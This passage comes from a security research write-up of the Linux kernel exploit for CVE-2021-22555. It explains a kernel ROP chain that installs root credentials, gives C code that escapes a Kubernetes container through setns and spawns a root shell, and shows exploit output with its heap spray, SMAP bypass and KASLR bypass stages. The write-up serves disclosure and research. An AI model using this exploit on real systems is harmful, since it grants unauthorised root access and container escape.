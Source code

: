 #### Kernel ROP chain

We save the value of RBP at some scratchpad address in kernel so that we can later resume the execution, then we call `commit_creds(prepare_kernel_cred(NULL))` to install kernel credentials and finally we call `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to switch the namespace of process 1 to the one of the *init* process. After that, we restore the value of RBP and return to resume the execution (which will immediately make `free_pipe_info()` return).

#### Escaping the container and popping a root shell

Arriving back in userland, we now have root permissions to can change mnt, pid and net namespaces to escape the container and break out of the kubernetes pod. Ultimately, we pop a root shell.

```c
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);
```

For the kCTF challenge, one can capture the flag as follows:

[![asciicast](https://asciinema.org/a/ndaTXv2QNmi8k5GNL5LD3dgKq.svg)](https://asciinema.org/a/ndaTXv2QNmi8k5GNL5LD3dgKq)

## Proof-Of-Concept

The Proof-Of-Concept is available at https://github.com/google/security-research/tree/master/pocs/linux/CVE-2021-22555.

Executing it on a vulnerable machine will grant you root:

```sh
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
```